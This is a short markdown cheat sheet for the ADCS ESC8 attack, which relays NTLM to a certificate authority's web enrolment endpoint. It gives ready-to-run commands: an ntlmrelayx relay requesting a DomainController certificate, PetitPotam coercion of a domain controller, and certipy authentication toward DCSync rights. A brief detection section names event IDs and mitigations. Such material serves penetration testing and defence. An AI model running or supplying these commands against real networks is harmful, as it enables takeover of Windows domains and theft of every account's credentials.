

# ADCS ESC8 (NTLM relay to CA web enrollment)

### Affected object / attribute
**ADCS web-enrolment endpoint** (`/certsrv/`) — NTLM authentication.

### Concept (deep)
HTTP enrolment accepts **NTLM**. Coerce a DC/privileged machine and **relay** to the endpoint → **machine certificate** → **PKINIT** → DCSync rights.

### Attack flow (Mermaid)


### Commands
```bash
# ── Relay to ADCS ────────────────────────────────────────────────────
ntlmrelayx.py -t http://10.10.10.20/certsrv/certfnsh.asp \
  -smb2support --adcs --template DomainController

# ── Coerce a DC ──────────────────────────────────────────────────────
python3 PetitPotam.py 10.10.10.99 10.10.10.5

# ── Authenticate with the issued certificate ────────────────────────
certipy auth -pfx dc.pfx -dc-ip 10.10.10.5
```

### Detection
NTLM auth to `/certsrv` (IIS **4624 type 3**); **EPA** + disable NTLM on the enrolment site; **4886** for `DomainController` template issued to a non-DC.

---
